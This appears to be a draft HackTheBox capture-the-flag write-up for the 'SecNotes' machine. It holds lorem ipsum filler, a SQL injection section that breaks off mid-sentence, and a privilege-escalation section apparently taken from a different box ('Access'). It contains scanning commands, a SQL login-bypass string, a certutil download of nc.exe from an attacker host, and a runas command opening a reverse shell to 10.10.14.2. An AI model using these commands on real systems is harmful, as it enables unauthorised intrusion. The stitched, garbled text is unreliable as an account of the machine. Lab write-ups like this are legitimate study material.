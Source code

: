 ```yaml
---
title: "HTB Write-up: SecNotes"
date: 2018-12-25
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, ]
header:
    teaser: "/assets/images/htb/secnotes/secnotes.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![secnotes_info.png](/assets/images/htb/access/secnotes_info.png)

*Note: I completed this challenge on December 25th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.97
```

From `masscan`, it was revealed that TCP 8808, 80 (HTTP), and 8808 were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8808,80,445 -sC -sV -oA scans/discovered-tcp 10.10.10.97 
```

As expected, the service listening on port 445 is SMB and the service listening on port 80 is Microsoft IIS HTTP. The resuts of the nmap scan suggests that the service lisetning on port 8808 is a Microsoft IIS HTTP service as well. The results of the nmap scan are shown below.

![nmapresults.png](/assets/images/htb/secnotes/nmapresults.png)

Browsing to `http://10.10.10.97` contains a simple login page with an option to sign up for an account. The `login.php` index file hints that the server runs PHP code.

![login_page.png](/assets/images/htb/secnotes/login_page.png)

Browsing to `http://10.10.10.97:8808` unveils only the default Microsoft IIS page. The directory-busting tool `gobuster` was run at this time to enumerate any additional directories present on port 8808. The command to accomplish this is shown below.

```
root@kali:~/workspace/hackthebox/SecNotes# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.97:80
```

No additional directoriess were found as a result of the `gobuster` command.

While the `gobuster` tool was doing its work, an attempt to connect to to the SMB service on port 445 was made using the `smbclient` command shown below.

```
root@kali:~/workspace/hackthebox/SecNotes# smbclient -L //10.10.10.97
```

This command aims to list the SMB shares, however the server did not allow for passwordless access in this case.

![smb_attempt.png](/assets/images/htb/secnotes/smb_attempt.png)

Continuing on with the page found at `http://10.10.10.97`, a new user account was created, as shown below.

![new_account.png](/assets/images/htb/secnotes/new_account.png)

Upon logging into the newly created account, the page shown below is reached. The basic page functionality is demonstrated.

![web_function.gif](/assets/images/htb/secnotes/web_fucntion.gif)

Moving back to the login page, basic SQL injection can be tested. If user data is not sanitized with a SQL querty, then sometimes login restrictions can be bypassed. A basic SQL injection string is shown below.

```
username' OR 1=1#
```



Similar to another HackTheBox machine, Nightmare, the login page for SecNotes suffers from a form of SQL injection where a user 

## Root
While running through the usual privelege escalation enumeration commands, something stood out as odd. After running the `net users administrator` command, it was revealed that the "Password Not Required" property has been set for the Administrator user. This means that the Administrator user is allowed passwordless logon to the system.

![net_user](/assets/images/htb/access/net_user.png)

Investigating this property further with the Windows `cmdkey /list` command, it can be seen that the Administrator user has a stored credential on the system.

![cmdkey](/assets/images/htb/access/cmdkey.png)

Continuing enumeration, the `ZKAccess3.5 Security System.lnk` shortcut file found on the Public user's desktop suggests that commands can be run as the Administrator using the `runas` Windows command along with the `/savecred` flag. The `runas` command can be used to run a Windows command as another system user. 

![savecred_link](/assets/images/htb/access/savecred_link.png)

Putting these pieces together, it is clear that system commands can be run as the Administrator user if the `/savecred` flag is included as part of the `runas` command. The fact that the Administrator does not need a password to logon to the system, that the Administrator user has a stored credential on the system, and that the `runas` command with the `/savecred` flag is being used on the system suggests a possible privelege elevation scenario.

To leverage this situtation, `nc.exe` can be transferred to the target system and then used to obtain a reverse shell that connects to the attacking machine.

In this case, the `certutil` Windows tool is used on the target system to download `nc.exe`to the target system. After using Python's `SimpleHTTPServer` to host `nc.exe` on the attacking system, the `certutil` command shown below was run on the target system to download the `nc` executable to the system.

```
C:\Users\security\Music>certutil.exe -urlcache -split -f http://10.10.14.2/nc.exe nc.exe
```

A screenshot of this process is included below.

![cert_util](/assets/images/htb/access/cert_util.png)

With `nc.exe` on the target system and a `nc` listener listening on the attacking system, the command shown below was run on the target system to create a reverse shell connection to the attacking system.

```
C:\Users\security\Music>runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.2 4444"
```

From the connection received on the attacking system, the `root.txt` flag can be read.

![root_txt](/assets/images/htb/access/root_txt.png)